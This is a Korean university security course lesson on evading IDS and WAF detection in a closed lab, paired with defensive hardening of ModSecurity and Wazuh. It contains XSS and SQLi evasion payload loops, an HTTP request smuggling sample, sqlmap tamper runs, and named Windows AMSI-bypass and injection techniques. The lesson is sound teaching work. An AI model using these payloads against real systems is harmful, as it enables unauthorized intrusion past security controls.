

# Week 10 — IDS / WAF 우회 (Evasion)

> 본 주차는 **방어 측 detection 의 우회 기술**. 본 lab 의 ModSec CRS paranoia 1 +
> Suricata ETOpen + Wazuh 의 detection 을 어떻게 회피하는가. **윤리적 한계**:
> 6v6 환경 안에서만, 학습 목적만. 외부 시스템 우회 시도 = 정통망법 위반.
> 본 주차의 목적 = 공격자 시점을 이해함으로써 방어 측 (Blue / Purple) 의 룰 강화에
> 기여.

## 학습 목표

학생은 본 주차 종료 시 다음을 수행할 수 있어야 한다.

1. **우회의 윤리적 한계** + RoE
2. **6 우회 카테고리** — encoding / case / nested / fragmentation / timing / protocol
3. **sqlmap tamper script 17+ 상세** + 효과 비교
4. **ModSec CRS 의 paranoia 1 의 알려진 약점**
5. **HTTP smuggling** + **chunked encoding** 의 원리
6. **WAF 보조 도구** (atlas / wafw00f / nuclei) 의 사용
7. **방어 측 강화 5 방법** (paranoia 상승 / 정밀 룰 / threshold / AR / CTI)
8. W10 R/B/P 1 사이클

## 강의 시간 배분 (3시간 40분)

| 시간      | 내용                                                                | 유형 |
|-----------|---------------------------------------------------------------------|------|
| 0:00–0:20 | 이론 — 우회의 윤리 + 본 주차의 RoE                                   | 강의 |
| 0:20–1:00 | 이론 — 6 우회 카테고리 상세                                          | 강의 |
| 1:00–1:10 | 휴식                                                                 | —    |
| 1:10–1:40 | 이론 — sqlmap tamper 17 + HTTP smuggling                            | 강의 |
| 1:40–2:00 | 이론 — atlas / wafw00f / nuclei 도구                                | 강의 |
| 2:00–2:30 | 실습 1, 2 — XSS / SQLi 우회 매트릭스                                | 실습 |
| 2:30–2:40 | 휴식                                                                 | —    |
| 2:40–3:10 | 실습 3, 4 — sqlmap tamper + atlas                                    | 실습 |
| 3:10–3:30 | 실습 5 — R/B/P (방어 강화 권장)                                      | 실습 |
| 3:30–3:40 | 정리 + W11 (권한 상승) 예고                                          | 정리 |

---

## 1. 우회의 윤리적 한계

### 1.1 본 주차의 RoE 강조

```
✅ 허용:
  - 6v6 환경 (학교 소유 + 학습 환경) 안에서 우회 시도
  - 학습 목적 + Purple Team 의 detection 강화 의도

❌ 금지:
  - 다른 학생의 환경 우회 시도
  - 외부 시스템 (회사 / 정부 / 개인) 우회
  - 우회 결과를 외부 공개 (특히 SNS / 블로그)
  - 우회 기법을 침해 목적 사용

법적 영향:
  - 정통망법 48조 위반 시 5년 이하 / 5천만원 이하
  - 발견된 우회는 즉시 강사 또는 보안 담당에 보고 (책임 있는 공개)
```

### 1.2 우회 학습의 가치

```
1. 방어 측의 시각 — Blue / Purple Team 이 어떻게 detection 룰을 강화해야 하는가
2. WAF 의 한계 인지 — paranoia level 의 trade-off 평가
3. 표준 침투 테스트의 일부 — PTES + ATT&CK Defense Evasion 의 학습
4. CVE 발굴 + bug bounty 의 기반
```

---

## 2. 6 우회 카테고리

### 2.1 Encoding

```
URL encoding:           <script>  → %3Cscript%3E
Double URL encoding:    <script>  → %253Cscript%253E
HTML entity:            <script>  → &lt;script&gt;  또는 &#60;script&#62;
Hex entity:             <script>  → &#x3C;script&#x3E;
Unicode escape (JS):    <script>  → <script>
UTF-7 (deprecated):     +ADw-script+AD4-
Base64 (응답 측):       eval(atob("YWxlcnQoMSk="))
```

#### URL encoding 우회 가능성

```
WAF 가 URL decode 후 검사 시 → 차단 정상
WAF 가 decode 안 함 또는 double encoding 단 한 번만 decode → 우회 가능
```

#### HTML entity 우회

```
서버 측에서 HTML entity 가 decode 되어 응답에 포함됨 → 브라우저에서 실행
WAF 가 entity decode 안 함 → 우회 가능
```

### 2.2 Case mixing

```
<script>     → <ScRiPt>
SELECT       → SeLeCt
UNION        → UnIoN
```

대부분 모던 WAF (ModSec 941/942) 는 `t:lowercase` transformation 적용 → 우회 어려움.

### 2.3 Nested / 중복

```
<script>           → <sc<script>ript>     ← 브라우저는 처음 <script> 만 parse
SELECT             → SELSELECTECT          ← SQLi 일부에서 가능
'OR'1              → ''OR''1               ← quote 중복
```

#### nested 의 원리

```
WAF: <script> 를 찾고 차단
공격: <sc<script>ript>alert(1)</script>

브라우저 parser:
  처음 <script> 매치 → 내용 = "ript>alert(1)" → 잘림
  실제 parsed: <script>...</script>

WAF 가 nested 미인지 시 → 통과
```

### 2.4 Fragmentation

```
IP fragmentation (nmap -f):
  큰 packet 을 작은 fragment 로 분할
  → IDS 가 fragment 별 분석 시 시그니처 매치 못 함
  → 재조립 후 본래 페이로드 실행

modern IDS (Suricata) 는 reassembly 함 → 우회 어려움
```

### 2.5 Timing

```
SLEEP / WAITFOR 등 시간 지연 — IDS 의 timing-based detection 회피
nmap -T0 (5분 간격) — rate-based detection 회피
```

### 2.6 Protocol abuse

#### HTTP Request Smuggling

```
POST / HTTP/1.1
Host: target
Content-Length: 13
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: target
...
```

**원리**: front-end (HAProxy) 와 back-end (Apache) 가 CL vs TE 헤더를 다르게 해석.

```
front-end CL=13 → 첫 13 byte 만 처리 → "0\r\n\r\n" 받고 conn 유지
back-end TE=chunked → "0" 이 last chunk → conn 종료, 다음 byte 부터 새 request
                   → "GET /admin HTTP/1.1..." 가 새 request 로 처리

결과: WAF 가 첫 request 만 검사, /admin 의 GET 은 우회
```

#### Chunked encoding

```
POST / HTTP/1.1
Transfer-Encoding: chunked
Content-Length: 100         ← WAF 가 CL 만 보고 차단 시도

5
union
0

```

WAF 가 chunked 의 일부만 inspect → 본 페이로드 우회.

---

## 3. sqlmap tamper script 17+

### 3.1 전체 list

```bash
sqlmap --list-tampers
```

주요 17+ tamper:

| Tamper | 효과 |
|--------|------|
| `space2comment` | 공백 ' ' → /**/ |
| `space2plus` | 공백 ' ' → '+' |
| `space2dash` | 공백 ' ' → ' --\n' (newline 포함 주석) |
| `space2hash` | 공백 ' ' → ' #\n' |
| `space2randomblank` | 공백 ' ' → \t / \r / \n 등 random |
| `randomcase` | 대소문자 random |
| `charunicodeescape` | ASCII char → `\uXXXX` |
| `charencode` | URL encoding |
| `chardoubleencode` | double URL encoding |
| `between` | `=` → `BETWEEN ... AND` |
| `equaltolike` | `=` → `LIKE` |
| `apostrophenullencode` | `'` → `%00%27` (null byte) |
| `apostrophemask` | `'` → unicode (`%EF%BC%87`) |
| `bluecoat` | bluecoat WAF 우회 (`AND` → `%0A%09` 등) |
| `securesphere` | imperva securesphere WAF 우회 |
| `appendnullbyte` | 페이로드 끝에 `%00` |
| `commentbeforeparentheses` | `(` 앞에 `/**/` |
| `versionedmorekeywords` | MySQL `/!50000union/*` 등 |

### 3.2 다중 tamper 조합

```bash
sqlmap --tamper=space2comment,randomcase,between -u ...
```

순서: 앞에서부터 적용 → 마지막 tamper 가 가장 outer.

### 3.3 본 lab 의 paranoia 1 우회 가능성

| Tamper | ModSec CRS paranoia 1 우회 |
|--------|---------------------------|
| space2comment | 부분 우회 (단일 942110 만 매치) |
| randomcase | 우회 어려움 (CRS 가 lowercase transform) |
| charunicodeescape | 우회 가능성 있음 |
| chardoubleencode | URL decode 의 single decode 시 우회 |
| between | 부분 우회 |

**결론**: paranoia 1 의 알려진 약점은 일부 → paranoia 2 권장.

---

## 4. WAF 보조 도구

### 4.1 wafw00f

```
역사: 2009 EnableSecurity
라이선스: BSD
용도: WAF 식별 (ModSec / Cloudflare / Imperva / F5 등)
```

```bash
wafw00f http://target/
# 출력: [+] The site is behind Wazuh / ModSecurity ...
```

### 4.2 atlas

```
역사: 2019 m4ll0k
용도: sqlmap tamper script 자동 시도
```

```bash
atlas --url "http://target/?id=1" --random-agent
# 효과적인 tamper 자동 식별
```

### 4.3 nuclei

```
역사: 2020 ProjectDiscovery
라이선스: MIT
용도: template 기반 vuln scanner (10000+ template)
```

```bash
nuclei -u http://target/ -t cves/2024/

# 본 lab 에서는 외부 template 다운로드 (인터넷 필요)
```

### 4.4 mod_security_audit_log_parser

ModSec audit log 의 분석 도구. 본인이 보낸 payload 가 어느 룰 매치 했는지 분석 →
다음 시도의 페이로드 변형 결정.

---

## 5. ATT&CK Defense Evasion (TA0005)

본 주차의 ATT&CK 매핑:

| Technique | 내용 |
|-----------|------|
| T1027 | Obfuscated Files or Information (encoding 우회) |
| T1027.010 | Command Obfuscation |
| T1140 | Deobfuscate/Decode Files (변형 후 실행) |
| T1562 | Impair Defenses (방어 우회) |
| T1562.004 | Disable or Modify System Firewall |
| T1599 | Network Boundary Bridging (HTTP smuggling) |
| T1499.001 | Network Denial of Service - Endpoint Exhaustion |

---

## 6. R/B/P 시나리오 — 우회 1 사이클



---

## 7. 실습 1~5

### 실습 1 — XSS 우회 매트릭스 (5+ 변형)

```bash
ssh 6v6-attacker '
echo "=== XSS 우회 매트릭스 ==="
for p in \
    "<script>alert(1)</script>" \
    "<ScRiPt>alert(1)</ScRiPt>" \
    "%3Cscript%3Ealert(1)%3C/script%3E" \
    "%253Cscript%253Ealert(1)%253C/script%253E" \
    "<sc<script>ript>alert(1)</script>" \
    "<svg/onload=alert(1)>" \
    "&#60;script&#62;alert(1)&#60;/script&#62;" \
    ""; do
    code=$(curl -s -o /dev/null -w "%{http_code}" \
        -H "Host: juice.6v6.lab" \
        "http://10.20.30.1/?q=$p")
    echo "$code | $p"
done
'
```

### 실습 2 — SQLi 우회 매트릭스

```bash
ssh 6v6-attacker '
echo "=== SQLi 우회 매트릭스 ==="
for p in \
    "1'\''OR'\''1'\''='\''1" \
    "1'\''/**/OR/**/'\''1'\''='\''1" \
    "1'\''+OR+'\''1'\''+like+'\''1" \
    "1+OR+1+BETWEEN+1+AND+1" \
    "1'\''%20OR%20%271%27%3D%271" \
    "1'\''%2BUNION%2BSELECT%2B1%2C2"; do
    code=$(curl -s -o /dev/null -w "%{http_code}" \
        -H "Host: dvwa.6v6.lab" \
        "http://10.20.30.1/?q=$p")
    echo "$code | $p"
done
'
```

### 실습 3 — sqlmap tamper 비교

```bash
ssh 6v6-attacker '
echo "=== sqlmap tamper 4 시도 ==="
for tamper in "space2comment" "randomcase" "between" "charunicodeescape"; do
    echo ""
    echo "--- tamper=$tamper ---"
    timeout 30 sqlmap \
        -u "http://10.20.30.1/?q=1" \
        --headers="Host: dvwa.6v6.lab" \
        --batch \
        --tamper=$tamper \
        --level=2 \
        2>&1 | grep -E "injectable|tested" | tail -3
done
'
```

### 실습 4 — wafw00f / nuclei 시뮬

```bash
# wafw00f 설치 안 됐다면 pip 으로
ssh 6v6-attacker '
which wafw00f 2>/dev/null || pip3 install wafw00f 2>&1 | tail -3

echo ""
echo "=== wafw00f — WAF 식별 ==="
wafw00f http://10.20.30.1/ -H "Host: juice.6v6.lab" 2>&1 | tail -10
'
```

### 실습 5 — R/B/P 보고서

```bash
# Blue 측 — ModSec 의 응답 코드 분포
ssh 6v6-web '
echo "=== ModSec 응답 분포 (최근 100) ==="
sudo cat /var/log/apache2/modsec_audit.log | \
    jq -r .transaction.response.http_code 2>/dev/null | \
    sort | uniq -c | sort -rn

echo ""
echo "=== 가장 자주 매치된 룰 (top 5) ==="
sudo cat /var/log/apache2/modsec_audit.log | \
    jq -r ".transaction.messages[]?.id" 2>/dev/null | \
    sort | uniq -c | sort -rn | head -5
'

# Wazuh 의 우회 패턴 검출 시도
ssh 6v6-siem '
echo "=== Wazuh 의 ModSec alert ==="
sudo tail -100 /var/ossec/logs/alerts/alerts.json | \
    jq "select(.data.modsecurity)" 2>/dev/null | head
'
```

**R/B/P 보고서**:

```markdown
# W10 R/B/P 보고서 — 우회

## Red 측
- XSS 8 변형 시도 → 통과 N / 차단 M
- SQLi 6 변형 시도 → 통과 N / 차단 M
- sqlmap 4 tamper → 효과적 tamper N
- 우회 성공한 페이로드 1+

## Blue 측 Coverage
| 우회 카테고리 | 시도 수 | 통과 수 | 차단 수 | Coverage |
| URL encoding | 5 | 0 | 5 | 100% |
| Case mixing | 5 | 0 | 5 | 100% |
| Nested | 3 | 0 | 3 | 100% |
| Double encoding | 3 | 1 | 2 | 67%   |
| HTML entity | 3 | 0 | 3 | 100% |

## Purple 측 권장
1. paranoia 1 → 2 (vhost 별 선택적)
2. ModSec 의 추가 transformation:
   t:lowercase, t:urlDecodeUni, t:htmlEntityDecode
3. CDB list — sqlmap UA / common scanner UA 즉시 block
4. Wazuh rule 100500: paranoia 1 우회 패턴 detect
5. Active Response: 우회 burst → 5분 fw drop
```

---

## 8. 방어 강화 5 표준

### 8.1 paranoia level 상승

```
crs-setup.conf:
  setvar:tx.paranoia_level=2

paranoia 2 의 효과:
  - 추가 룰 활성 (encoding 우회 패턴 감지)
  - false-positive 약간 증가 (운영 측 검토 필요)
  - 점진 적용 권장 (vhost 별 또는 trial 기간)
```

### 8.2 다중 transformation

```
ModSec 의 t:lowercase, t:urlDecode, t:htmlEntityDecode, t:replaceComments 등
연속 적용 → encoding 우회 패턴 detect
```

### 8.3 CDB list (W13 secuops 참조)

```
/var/ossec/etc/lists/known-scanners
  sqlmap:scanner
  nmap:scanner
  nikto:scanner
  curl/7.81.0:script  (curl 자체는 정상 — false-positive 가능)

CDB list 매칭 시 Wazuh rule 의 level 자동 상승
```

### 8.4 Active Response

```
Wazuh AR 설정:
  Rule 100500 매치 → fw drop 10 분
  실시간 차단 + 운영자 알림
```

### 8.5 CTI 통합

```
OpenCTI (W14 secuops) 의 IOC feed:
  - 알려진 attacker IP
  - 알려진 scanner / botnet UA
  - Wazuh CDB list 와 자동 sync
```

---

## 8.5 Windows 측의 우회 패턴 — PowerShell 인코딩 / LOLBAS (W03 secuops 위빙)

본 주차의 IDS/WAF 우회는 네트워크 측 페이로드 변형이 중심이다. Windows 측에서도 같은 종류의
우회 기법이 존재 — 차이는 **호스트 측의 안티바이러스/EDR 을 우회**하는 게 목적.

### Windows 측 우회 4 패턴

| 패턴 | 기법 | Blue 측 단서 |
|------|------|-------------|
| PowerShell base64 | `-EncodedCommand <b64>` 로 명령 숨김 | Sysmon EID 1 CommandLine 의 `EncodedCommand` 문자열 |
| AMSI bypass | AMSI 메모리 패치로 안티바이러스 우회 | Sysmon EID 10 (LSASS 핸들 오픈 등 의심 패턴) |
| LOLBAS (mshta/rundll32/regsvr32) | OS 정상 도구로 페이로드 실행 | Sysmon EID 1 의 비정상 인자 |
| process injection | CreateRemoteThread / DLL 주입 | Sysmon EID 8 (CreateRemoteThread), 10 |

### "완전 우회는 없다" 가 본 주차의 메시지

- 페이로드 변형은 IDS/WAF 룰을 우회할 수 있다 — 그러나 endpoint EDR 의 **행위 기반 탐지** 는 더
  잡기 어렵다.
- 행위 기반은 "무엇을 했는가" 를 본다. PowerShell 의 base64 인코딩은 명령 내용은 숨기지만, `-EncodedCommand`
  키워드 자체는 cmdline 에 그대로 남는다.
- Red 의 학습 관점에선 — **각 우회 기법이 어느 layer 에서 잡히는지** 를 알아야 다음 layer 를 노릴 수 있다.

### 윤리

> 본 주차의 우회 기법은 모두 6v6 내부 학습 한정. 실 환경 endpoint EDR 우회 시도는 명시적 합의서
> 필요. AMSI bypass / process injection 도구는 6v6 외부 반출 금지.

---

## 9. 한국 사례 + 표준 매핑

### 9.1 KISA 우회 사례

대부분 침해 사고가 WAF / IDS 우회 시도 후 성공. 본 주차의 학습으로 detection 권장
가능.

### 9.2 ISMS-P 2.10.7 + NIST CSF Protect

paranoia 상승 + CDB list = 본 통제의 입증.

---

## 10. 과제

A. **우회 매트릭스** (필수, 40점) — XSS 5 + SQLi 5 = 10 시도 × 응답 코드 + 우회 원리
B. **tamper 분석** (심화, 30점) — sqlmap 4 tamper 의 효과 비교 표
C. **방어 측 분석** (정성, 30점) — paranoia 상승 권장 + 부작용 평가

---

## 11. 핵심 정리 (10 줄)

1. **우회의 윤리** — 6v6 환경 한정, 외부 시스템 = 위법
2. **6 우회 카테고리** — encoding / case / nested / fragmentation / timing / protocol
3. **sqlmap tamper 17+** — paranoia 1 의 알려진 약점 일부 우회
4. **HTTP smuggling** + **chunked encoding** — front/back-end 해석 차이
5. **wafw00f** = WAF 식별, **atlas** = tamper 자동, **nuclei** = template scan
6. **paranoia 1 vs 2** — false-positive trade-off
7. **ATT&CK TA0005** Defense Evasion + T1027 / T1140 / T1562 / T1599
8. **W10 R/B/P** — 우회 시도 → ModSec 분포 분석 → 5 권장
9. **방어 5 표준** — paranoia / transform / CDB / AR / CTI
10. **W11 (권한 상승)** 다음 주차 — 사용자 권한 후 root
